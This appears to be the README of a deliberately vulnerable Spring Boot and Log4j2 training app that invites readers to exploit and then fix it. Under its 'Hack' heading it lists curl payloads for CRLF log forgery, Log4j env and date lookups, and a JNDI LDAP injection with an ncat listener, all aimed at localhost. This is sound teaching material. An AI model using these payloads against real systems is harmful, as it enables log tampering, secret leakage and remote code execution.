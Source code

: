 # Log Injection with Spring Boot and Log4J2

## Usage

- Run

```
./gradlew bootRun
```

- Request

```
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```
curl http://localhost:8080/\?name\=Marty%0d%0a1985-10-30%2021%3A59%3A01.108%20DEBUG%20128537%20---%20%5Bnio-8080-exec-1%5D%20net.example.logging.HelloController%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection

- Run a listener

```
ncat -v -l -p 5000
```

- JNDI LDAP lookup: ``Hello ${jndi:ldap://localhost:5000}%``

```
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A5000%7D
```

## Fix

Try to fix this app!
Don't disable JNDI Lookup, this could be usefull. 
